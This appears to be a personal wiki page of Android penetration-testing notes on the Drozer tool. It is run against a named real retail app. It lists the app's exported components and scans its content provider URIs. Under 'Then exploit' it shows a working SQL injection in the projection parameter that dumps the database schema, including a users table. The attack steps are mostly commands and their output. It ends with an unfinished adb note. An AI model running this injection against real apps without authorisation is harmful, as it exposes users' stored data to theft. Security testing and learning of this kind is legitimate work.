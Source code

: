 ```yaml
---
title: Drozer - Tool for dyamic Exploration of Android Apps
description: 
published: true
date: 2023-01-19T19:22:40.756Z
tags: 
editor: markdown
dateCreated: 2023-01-19T19:22:40.756Z
---
```


# Summary

Runs a daemon on the device (doesn't need root, but might be better.)
Can do lots of adb like things.
Explore android specific attack surface and run things (intents providers etc).

Links
https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/drozer-tutorial

https://resources.infosecinstitute.com/topic/android-penetration-tools-walkthrough-series-drozer/
# Display attack surface
```
dz> run app.package.attacksurface com.kroger.kart
Attack Surface:
  10 activities exported
  3 broadcast receivers exported
  1 content providers exported
  1 services exported

```
# Get Activity Info
```
dz> run app.activity.info -a com.kroger.kart
Package: com.kroger.kart
  com.kroger.kart.presentation.view.LoginActivity
    Permission: null
  com.microsoft.identity.client.BrowserTabActivity
    Permission: null
  com.kroger.kart.presentation.view.LaunchActivity
    Permission: null
  com.kroger.kart.presentation.view.Callback
    Permission: null
  com.kroger.kart.presentation.view.Logout
    Permission: null
  com.microsoft.identity.client.CurrentTaskBrowserTabActivity
    Permission: null
  androidx.compose.ui.tooling.PreviewActivity
    Permission: null
  com.okta.oidc.OktaRedirectActivity
    Permission: null
  com.google.firebase.auth.internal.GenericIdpActivity
    Permission: null
  com.google.firebase.auth.internal.RecaptchaActivity
    Permission: null
```

# Run an Activity

# Get Broadcast Information

```
dz> run app.broadcast.info -a com.kroger.kart
Package: com.kroger.kart
  com.kroger.kart.widget.WidgetStoreWalk
    Permission: null
  androidx.work.impl.diagnostics.DiagnosticsReceiver
    Permission: android.permission.DUMP
  androidx.profileinstaller.ProfileInstallReceiver
    Permission: android.permission.DUMP
```

# Get Provider Information
```
dz> run app.provider.info -a com.kroger.kart
Package: com.kroger.kart
  Authority: com.kroger.kart.providers.UserContentProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.kroger.kart.providers.UserContentProvider
    Multiprocess Allowed: True
    Grant Uri Permissions: True
```
# Then get the URIs

```
dz> run scanner.provider.finduris -a com.kroger.kart
Scanning com.kroger.kart...
Unable to Query  content://com.kroger.kart.firebaseperfprovider/
Able to Query    content://com.kroger.kart.providers.UserContentProvider/
Unable to Query  content://com.kroger.kart.firebaseinitprovider
Unable to Query  content://com.kroger.kart.kaf.KafContextAppProvider/
Able to Query    content://com.kroger.kart.providers.UserContentProvider
Unable to Query  content://com.kroger.kart.firebaseperfprovider
Unable to Query  content://com.kroger.kart.kaf.KafContextAppProvider
Unable to Query  content://com.kroger.kart.firebaseinitprovider/
Unable to Query  content://com.kroger.kart.androidx-startup
Unable to Query  content://com.kroger.kart.androidx-startup/

Accessible content URIs:
  content://com.kroger.kart.providers.UserContentProvider
  content://com.kroger.kart.providers.UserContentProvider/

```

# Then see if you can inject into URIs
```
dz> run scanner.provider.injection -a com.kroger.kart
Scanning com.kroger.kart...
Not Vulnerable:
  content://com.kroger.kart.firebaseperfprovider/
  content://com.kroger.kart.firebaseinitprovider
  content://com.kroger.kart.kaf.KafContextAppProvider/
  content://com.kroger.kart.firebaseperfprovider
  content://com.kroger.kart.kaf.KafContextAppProvider
  content://com.kroger.kart.firebaseinitprovider/
  content://com.kroger.kart.androidx-startup
  content://com.kroger.kart.androidx-startup/

Injection in Projection:
  content://com.kroger.kart.providers.UserContentProvider
  content://com.kroger.kart.providers.UserContentProvider/

Injection in Selection:
  content://com.kroger.kart.providers.UserContentProvider
  content://com.kroger.kart.providers.UserContentProvider/
  ```
# Then exploit:
Note you can cause a sql error to figure out where you are in the query
```
dz> run app.provider.query content://com.kroger.kart.providers.UserContentProvider --projection "* from SQLITE_MASTER WHERE type='table';=="
| type  | name             | tbl_name         | rootpage | sql                                                                                                      |
| table | android_metadata | android_metadata | 3        | CREATE TABLE android_metadata (locale TEXT)                                                              |
| table | users            | users            | 4        | CREATE TABLE users (_id INTEGER PRIMARY KEY AUTOINCREMENT,  euid TEXT NOT NULL,  location TEXT NOT NULL) |
| table | sqlite_sequence  | sqlite_sequence  | 5        | CREATE TABLE sqlite_sequence(name,seq)                                                                   |
```


# Need to learn to start drozer from adb
adb am start PACKAGENAME:Intent
Don't know either PACKAGENAME or Intent yet.  Will fix page.

